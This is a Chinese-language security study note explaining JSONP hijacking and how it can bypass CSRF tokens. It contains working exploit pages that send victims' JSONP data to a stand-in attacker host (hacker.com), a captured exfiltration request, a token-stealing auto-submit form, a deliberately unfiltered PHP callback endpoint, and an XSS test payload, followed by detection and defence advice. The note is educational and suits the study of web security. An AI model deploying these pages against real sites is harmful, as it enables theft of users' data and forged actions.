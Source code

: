 ```yaml
---
aliases: []
tags: ['Security','date/2022-11','year/2022','month/11']
date: 2022-11-30-星期三 19:56:15
update: 2022-12-01-星期四 14:36:58
---
```


## JSONP介绍

说起[[跨域]]请求资源的方法，最常见的方法是JSONP/CORS。下面以具体的例子介绍一下[[跨域#JSONP|JSONP]]的工作原理。

JSONP全称是JSON with Padding ，是基于JSON格式的为解决跨域请求资源而产生的解决方案。**他实现的基本原理是利用了HTML里script元素标签没有跨域限制**

JSONP原理就是动态插入带有跨域url的script标签，然后调用回调函数，把我们需要的json数据作为参数传入，通过一些逻辑把数据显示在页面上。

比如通过script访问`http://www.test.com/index.html?jsonpcallback=callback`, 执行完script后，会调用callback函数，参数就是获取到的数据。

JSONP劫持，实质上算是一种读类型的CSRF，在恶意的网页中构造恶意的JS代码，当合法用户点击该网页，由于目标站点存在JSONP劫持漏洞的接口，因此会将用户的该接口对应的信息劫持，并将其发送到攻击者的服务器。

## JSONP劫持

对于JSONP传输数据，正常的业务是用户在B域名下请求A域名下的数据，然后进行进一步操作。

但是对A域名的请求一般都需要身份验证，hacker怎么去获取到这些信息呢，我们可以自己构造一个页面，然后诱惑用户去点击，在这个页面里，我们去请求A域名资源，然后回调函数将请求到的资源发回到hacker服务器上。

没错JSONP劫持类似于[[前端安全：CSRF|CSRF]]漏洞，步骤大概如下图所示：

![](_attachment/img/1666134937.png)

利用代码如下所示：

```html
<html>
<head>
<title>test</title>
<meta charset="utf-8">
<script type="text/javascript">
function hehehe(obj){
    var myForm = document.createElement("form");
    myForm.action="http://hacker.com/redirect.php";
    myForm.method = "GET";
    for ( var k in obj) {
        var myInput = document.createElement("input");
        myInput.setAttribute("name", k);
        myInput.setAttribute("value", obj[k]);
        myForm.appendChild(myInput);
    }
    document.body.appendChild(myForm);
    myForm.submit();
    document.body.removeChild(myForm);
}
</script>
</head>
<body>
<script type="text/javascript" src="http://localhost/callback.php?callback=hehehe"></script>
</body>
</html>
```

诱惑用户访问此html，会以用户的身份访问`http://localhost/callback.php?callback=hehehe`,拿到敏感数据，然后执行hehehe函数，将数据发送给`http://hacker.com/redirect.php`。抓包可以拦截到如下请求包：

```http
GET /redirect.php?customername1=user1&password=12345678 HTTP/1.1
Host: hacker.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://10.133.136.120/test.html
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

hacker只需要在redirect.php里，将数据保存下来，然后重定向到baidu.com，堪称一次完美的JSONP劫持。

## 利用JSONP绕过token防护进行csrf攻击

具体的实例可以看看参考文章2，3。

通过上面例子，我们知道JSONP可以获取敏感的数据，在某些情况下，还可以利用JSONP劫持绕过token限制完成csrf攻击。

假设有个场景是这样：服务端判断接收到的请求包，如果含有callback参数就返回JSONP格式的数据，否则返回正常页面。代码如下：test.php

```php
<!-- callback.php -->

<?php
    header('Content-type: application/json');
    //json数据
    $json_data = '{"customername1":"user1","password":"12345678"}';
    if(isset($_GET["callback"])){
        $callback = $_GET["callback"];
        //如果含有callback参数，输出jsonp格式的数据
        echo $callback . "(" . $json_data . ")";
    }else{
        echo $json_data;
    }
?>
```

对于场景，如果存在JSONP劫持劫持，我们就可以获取到页面中的内容，提取出csrf\_token，然后提交表单，造成csrf漏洞。示例利用代码如下(来自参考文章2)：

```html
<html>
<head>
<title>test</title>
<meta charset="utf-8">
</head>
<body>
<div id="test"></div>
<script type="text/javascript">
function test(obj){
    // 获取对象中的属性值
    var content = obj['html']
    // 正则匹配出参数值
    var token=content.match('token = "(.*?)"')[1];
    // 添加表单节点
    var parent=document.getElementById("test");
    var child=document.createElement("form");
    child.method="POST";
    child.action="http://vuln.com/del.html";
    child.id="test1"
    parent.appendChild(child);
    var parent_1=document.getElementById("test1");
    var child_1=document.createElement("input");
    child_1.type="hidden";child_1.name="token";child_1.value=token;
    var child_2=document.createElement("input");
    child_2.type="submit";
    parent_1.appendChild(child_1);
    parent_1.appendChild(child_2);
}
</script>
<script type="text/javascript" src="http://vuln.com/caozuo.html?htmlcallback=test"></script>
</body>
</html>
```

htmlcallback返回一个对象obj，以该对象作为参数传入test函数，操作对象中属性名为html的值，正则匹配出token，再加入表单，自动提交表单完成操作，用户点击该攻击页面即收到csrf攻击。

## JSONP劫持挖掘与防御

对于漏洞挖掘，我们首先需要尽可能的找到所有的接口，尤其是返回数据格式是JSONP的接口。(可以在数据包中检索关键词callback json jsonp email等，也可以加上callback参数，观察返回值是否变化)。

找到接口之后，还需要返回值包含敏感信息，并且能被不同的域的页面去请求获取(也就是是否存在refer限制,实际上，如果接口存在refer的限制，也是有可能被绕过的，计划以后的文章中再说)

对于JSONP劫持的防御，其实类似于csrf的防御。以下来源于参考文章4:

- 限制来源refer
- 按照JSON格式标准输出（设置Content-Type : application/json; charset=utf-8），预防`http://127.0.0.1/getUsers.php?callback=<script>alert(/xss/)</script>`形式的xss
- 过滤callback函数名以及JSON数据输出，预防xss

## 参考

- [JSONP 劫持原理与挖掘方法](https://www.k0rz3n.com/2019/03/07/JSONP%20%E5%8A%AB%E6%8C%81%E5%8E%9F%E7%90%86%E4%B8%8E%E6%8C%96%E6%8E%98%E6%96%B9%E6%B3%95/)
- [JSONP绕过CSRF防护token](https://xz.aliyun.com/t/5143)
- [分享一个jsonp劫持造成的新浪某社区CSRF蠕虫](https://www.leavesongs.com/HTML/sina-jsonp-hijacking-csrf-worm.html#)
- [JSONP 安全攻防技术](https://blog.knownsec.com/2015/03/jsonp_security_technic/)
